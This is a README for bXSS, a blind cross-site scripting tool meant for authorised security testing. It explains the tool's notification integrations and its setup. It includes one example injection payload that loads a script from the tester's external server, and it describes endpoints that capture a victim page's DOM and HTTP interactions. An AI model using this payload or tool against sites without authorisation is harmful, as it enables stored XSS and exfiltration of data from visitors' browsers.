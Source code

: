 # bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS supports the following:

* [Intrusive Levels](./Images/intrusion.jpg)
* [Email](./Images/email.jpg)
    * [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
* [Twilio](./Images/sms.jpg)
* [Slack](./Images/slack.jpg)
* [Webex Teams](./Images/cisco.jpg)
* [Discord](./Images/discord.jpg)
* [Twitter](./Images/twitter.jpg)
* [Payload Generation](./Images/payloads.jpg)
* [Save locally](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* Node.js and Express
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
* A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
* A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
* A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
     * Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b> 
        * config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
        * config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']     
    * Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b> 
        * Steps to create a bot:
            * Visit https://discordapp.com/developers/applications/
            * Create a new application (e.g bXSSForCompany)
            * Make a note of your CLIENT ID
            * Select 'Bot' 
                * Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
            * Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
            * Select the server you want your bot to join and authorize
            * Update the following values below for the bot to post to the 'text channel' e.g ('general')
        * config.discord.token = 'your bot token'
        * config.discord.channel = 'channel you want it to join, e.g general'    
    * Twitter  <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>  
        *   config.twitter.consumer_key = API Key
        * config.twitter.consumer_secret = API Secret Key
        * config.twitter.access_token_key = Application Access Token
        * config.twitter.access_token_secret =  Application Access Token Secret
        * Permissions (Write)
        * config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>    
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps (Optional)

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has five core functions to utilize:

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* GET - /mH (captures HTTP interactions)
* Payloads - /payloads (Gives payloads you can use for testing blind xss)
* Everything else - Loads alert(1)


# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
